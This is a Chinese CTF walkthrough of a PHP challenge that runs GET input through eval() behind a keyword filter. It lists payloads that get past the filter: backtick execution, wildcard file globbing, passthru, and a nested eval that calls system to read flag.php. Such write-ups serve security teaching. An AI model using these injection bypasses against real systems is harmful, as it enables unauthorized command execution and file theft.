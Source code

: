 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:42:26
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

源码分析

get方式传参c

过滤

flag

system

php

 

eval命令执行



利用 ` 

反字节符配合echo



```
?s=echo(`ls`);
```

![image-20250309094552644](./assets/image-20250309094552644.png)



利用*匹配

```
?c=echo(`cat fla*`);
```

![image-20250309094611868](./assets/image-20250309094611868.png)



利用?匹配

```
?c=echo(`cat ????.???`);
```

![image-20250401223917882](./assets/image-20250401223917882.png)



利用passthru函数也行

```
?c=passthru("cat ????.???");
```

![image-20250401224022512](./assets/image-20250401224022512.png)



拼接一个eval进行rce

```
?c=eval($_GET['ra1n3']);&ra1n3=system("cat flag.php");
```

![image-20250401224456479](./assets/image-20250401224456479.png)